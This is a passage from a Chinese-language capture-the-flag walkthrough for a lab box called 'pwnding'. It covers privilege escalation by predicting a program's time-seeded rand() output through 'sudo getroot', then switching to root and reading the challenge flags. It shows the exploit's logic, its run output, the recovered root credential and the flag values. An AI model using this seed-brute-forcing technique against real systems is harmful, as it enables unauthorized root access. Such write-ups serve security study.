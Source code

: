 **脚本原理**：

1. 使用 Python 的 `ctypes` 调用 C 标准库的 `srand()` 和 `rand()` 函数，确保随机数生成逻辑与目标程序一致
2. 枚举当前时间前后 5 秒的时间戳（考虑到执行延迟）
3. 对每个时间戳，枚举 31 个可能的 `magic_number`（对应正态分布值 -15 到 15）
4. 调用 `sudo getroot <magic>` 尝试验证
5. 成功时输出 `/root/cred` 的内容

## 5.7 执行提权

运行 exploit 脚本：

```bash
lamb@pwnding:/tmp$ python3 a.py 
[+] Success! ts: 1759325594, magic: 84845
$1$BvrTqWyB$Soa7qkeu1GfIoy2duf53t0
```

**成功获取 root 密码**：`$1$BvrTqWyB$Soa7qkeu1GfIoy2duf53t0`

## 5.8 切换到 root

使用获取的密码切换到 root：

```bash
lamb@pwnding:/tmp$ su -
Password: $1$BvrTqWyB$Soa7qkeu1GfIoy2duf53t0
root@pwnding:~# id
uid=0(root) gid=0(root) groups=0(root)
```

**成功提权到 root！**

# 六、获取 Flag

查找并读取 root flag：

```bash
root@pwnding:~# cat /root/ro0oo0ooo0oooo0oooo0ooo0oo0ot.txt /home/lamb/use3e3e3e3e3sr.txt 
flag{46511d58f2ae11ef9ea3000c29094b2d}
flag{3a463d08f2ae11efbeb6000c29094b2d}
```

